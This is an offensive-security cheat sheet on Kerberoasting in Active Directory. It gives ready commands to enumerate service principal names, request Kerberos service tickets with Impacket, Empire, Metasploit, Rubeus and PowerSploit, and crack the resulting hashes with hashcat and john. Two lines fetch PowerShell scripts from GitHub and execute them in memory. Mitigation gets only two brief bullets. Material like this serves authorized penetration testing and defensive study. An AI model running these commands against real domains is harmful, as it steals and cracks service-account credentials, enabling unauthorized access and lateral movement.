

# Kerberoasting

## T1558.003: Kerberoasting

**Permissions Required: **<mark style="color:green;">**Valid Domain Account**</mark>** | **<mark style="color:orange;">**Ability to sniff domain traffic**</mark>

**Description**

Adversaries may abuse a valid Kerberos ticket-granting ticket (TGT) or sniff network traffic to obtain a ticket-granting service (TGS) ticket that may be vulnerable to Brute Force.

Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plain text credentials.

Cracked hashes may enable Persistence, Privilege Escalation, and Lateral Movement via access to Valid Accounts.

[\[Source\]](https://attack.mitre.org/techniques/T1558/003/)

## Enumeration Techniques

### CMD

```bash
setspn -T <Domain> -Q */*
```

### Impacket

```bash
GetUserSPNs.py <Domain>/<User>:<Password> -dc-ip <IP> -request
```

### PowerShell

```powershell
Function GetSPN{
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(servicePrincipalName=*)"
$results = $search.Findall()
foreach( $result in $results ) {
	$userEntry = $result.GetDirectoryEntry()
	Write-host "Object Name	=	"	$userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
	Write-host "DN	=	"	$userEntry.distinguishedName
	Write-host "Object Cat.	=	" $userEntry.objectCategory
	Write-host "servicePrincipalNames"
	$i=1
	foreach( $SPN in $userEntry.servicePrincipalName ) {
		Write-host "SPN ${i} =$SPN"
		$i+=1}Write-host ''}}GetSPN
```

## Exploit Techniques

### Empire

```bash
# PowerShell
powershell/credentials/invoke_kerberoast

# C#
csharp/SharpSploit.Enumeration/Kerberoast
```

.png>)

### Impacket

```bash
GetUserSPNs.py <Domain>/<User>:<Password> -dc-ip <IP> -request
```

.png>)

### Metasploit

```
use auxiliary/gather/get_user_spns
```

### Invoke-Kerberoast (PowerSploit)

```bash
iex (iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1); Invoke-Kerberoast | FL
```


### Rubeus

**URL:** [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```python
# Kerberoast all users in Domain
.\Rubeus kerberoast

# All Users in OU
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local

# Specific users
.\Rubeus.exe kerberoast /user:File_SVC
```



### WinPWN

**URL:** [https://github.com/S3cur3Th1sSh1t/WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn)

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1')
Invoke-Rubeus -Command "kerberoast /format:hashcat /nowrap"
```


## Cracking Techniques

```bash
# Windows
hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux
john --wordlist rockyou.txt Hashes.txt --format=krb5tgs
hashcat -m 18200 -a 3 Hashes.txt rockyou
```

## Mitigation

* Ensure service account passwords are longer than 25 characters
* Make use of Group Service Managed Accounts (GMSA) where possible
